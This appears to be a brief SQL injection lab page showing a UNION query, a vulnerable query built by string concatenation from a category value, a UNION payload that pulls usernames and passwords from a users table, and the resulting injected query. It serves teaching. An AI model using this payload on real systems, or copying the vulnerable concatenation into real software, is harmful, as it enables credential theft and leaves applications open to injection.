 # sql-injection-lab
``` sql
SELECT a, b FROM table1 UNION SELECT c, d FROM table2
```

``` 
$sqlQuery = "SELECT a, b FROM products WHERE categories = + '" + $category + "'
```

``` sql
UNION SELECT username, password FROM users--'
```

``` sql
SELECT a, b FROM products WHERE categories = '' UNION SELECT username, password FROM users--'
```

